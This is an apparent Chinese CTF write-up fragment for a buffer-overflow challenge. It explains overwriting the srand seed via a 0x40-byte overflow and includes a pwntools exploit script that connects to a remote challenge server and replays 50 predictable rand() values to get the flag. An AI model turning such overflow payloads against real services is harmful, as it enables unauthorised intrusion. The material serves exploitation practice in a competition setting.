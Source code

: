 
2. 想到先利用输入，通过buf覆盖0x40覆盖seed()，将srand()函数的种子seed()覆盖，产生的随机数就是确定的，随后模拟50次的随机数操作拿到flag

**exp**

```python
#coding:utf8
from pwn import *
from ctypes import * #c函数库，利用rand需要
p=remote('111.198.29.45','54630')
libc = cdll.LoadLibrary("/root/libc.so.6")
#加载相对应版本libc，不同版本rand函数效果可能不同
#elf = ELF('/root/libc.so.6')
#libc = elf.libc
payload = "a" * 0x40 + p32(0)
p.sendline(payload)

for i in range(50):
    r = libc.rand() % 6 + 1
    p.sendline(str(r))
p.interactive()
```

3. 执行结果

![](截图\1.5.png)
